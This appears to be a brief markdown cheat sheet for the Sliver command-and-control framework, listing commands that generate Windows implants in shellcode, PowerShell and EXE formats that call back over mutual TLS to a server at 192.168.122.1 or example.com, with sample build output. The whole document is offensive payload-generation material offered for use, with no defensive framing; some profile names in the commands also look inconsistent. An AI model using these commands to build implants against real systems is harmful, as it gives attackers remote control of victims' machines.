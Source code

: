# Payload Generation on Sliver for Windows

Here are some  commands for generating payloads on Sliver, specifically targeting Windows.

## Generating a Windows Shellcode Payload
Create a new profile called `win-shellcode` that uses mutual TLS and connects to the server IP **192.168.122.1** in **shellcode** format.
```bash
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode my_profile
sliver > generate --profile my_profile
```
## Generating a Windows PowerShell Payload
Create a new profile called `win-powershell`, generating a payload in PowerShell format for Windows. 
```bash
sliver > profiles new --mtls 192.168.122.1 --format powershell win-powershell my_profile
sliver > generate --profile my_profile
```

## Generating a Windows x86 Payload
Create a new profile called `win-exe-x86`, generating a payload in EXE format for Windows x86.
```bash
sliver > profiles new --mtls 192.168.122.1 --format exe win-exe-x86 --arch x86 my_profile
sliver > generate --profile my_profile
```

## Generation a Windows Payload with generate
The following command generates a Sliver implant for a Windows target using mTLS for secure communication. The payload is saved as an executable (`.exe`) file on the specified directory, ready to be deployed on a 64-bit Windows system.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os windows --arch x64

[*] Generating new windows/x64 Sliver binary
[*] Build completed in 00:00:08
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY.exe
```
